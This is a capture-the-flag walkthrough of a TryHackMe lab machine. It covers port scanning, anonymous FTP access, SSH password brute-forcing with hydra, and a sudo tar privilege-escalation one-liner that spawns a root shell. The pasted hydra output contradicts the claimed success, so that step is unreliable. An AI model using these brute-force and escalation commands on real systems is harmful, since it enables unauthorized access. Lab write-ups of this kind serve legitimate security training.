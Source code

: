 # Bounty Hunter
tryhackme - bounty hacker [easy] https://tryhackme.com/room/cowboyhacker

![9ad38a2cc31d6ae0030c888aca7fe646](https://user-images.githubusercontent.com/80511498/147251011-a47f9804-889c-483b-8e56-1bb0964e11e0.jpeg)
tryhackme 

## NMAP SCAN
*here is a nmap scan of the machine*
nmap command :- nmap -A http:// <IP_Address>

```bash
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.33.72
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Linux 3.7 (90%), Linux 5.0 (90%), Linux 5.1 (90%), Ubiquiti AirOS 5.5.9 (90%), Linux 5.0 - 5.4 (89%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   22.96 ms  10.17.0.1
2   ... 4
5   145.37 ms 10.10.0.198

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.70 seconds
```

*we can see in the nmap result that ftp and ssh is open* 
*firstly im going to try ftp into the machine*

## FTP results
- The FTP is accessible try login with anonymous.
- command :- ftp <IP_Address> 
- when asked for user enter anonymous

```bash
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp>
```
*get the files locks.txt and task.txt they are needed in further enumeration*
___
*task.txt*
in task.txt we found a user (lin)
___
```
$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
___
locks.txt
this look's like a wordlist so we will use it for bruteforce
```bash
*$ cat locks.txt* 
- rEddrAGON
- ReDdr4g0nSynd!cat3
- Dr@gOn$yn9icat3
- R3DDr46ONSYndIC@Te
- ReddRA60N
- R3dDrag0nSynd1c4te
- dRa6oN5YNDiCATE
- ReDDR4g0n5ynDIc4te
- R3Dr4gOn2044
- RedDr4gonSynd1cat3
- R3dDRaG0Nsynd1c@T3
- Synd1c4teDr@g0n
- reddRAg0N
- REddRaG0N5yNdIc47e
- Dra6oN$yndIC@t3
- 4L1mi6H71StHeB357
- rEDdragOn$ynd1c473
- DrAgoN5ynD1cATE
- ReDdrag0n$ynd1cate
- Dr@gOn$yND1C4Te
- RedDr@gonSyn9ic47e
- REd$yNdIc47e
- dr@goN5YNd1c@73
- rEDdrAGOnSyNDiCat3
- r3ddr@g0N
- ReDSynd1ca7e

```
---

## HYDRA
**trying to brute force ssh using hydra**
now we have the user name and we will use the wordlist locks.txt to brute force
command :- hydra -l lin -P locks.txt  <IP_Address> ssh
```bash
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-22 21:45:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ftp://10.10.0.198:21/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-22 21:45:39
```
- we found the password and login via ssh
  we see the user flag 
- we just cat the user flag 
- user.txt - THM{userflag}
___

### Priv Sec
now we need to escalate our privilege
we can exploit  lin's sudo privilege
command :- sudo -l
```bash
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

*i searched more on tar sudo privilege escaltion and found this*


just run the following command 
- command :- sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

![68747470733a2f2f692e696d6775722e636f6d2f41397a70647a6e2e706e67](https://user-images.githubusercontent.com/80511498/147251386-5d178b8c-1a21-4590-90d1-fde988fe1ecc.png)


- now we have a root access you can see by typing :- sudo -l
![68747470733a2f2f692e696d6775722e636f6d2f633845557361732e706e67](https://user-images.githubusercontent.com/80511498/147251202-77aa7dce-db3a-4829-a758-fba7623e3173.png)

- cd into /root to get to the root flag
___

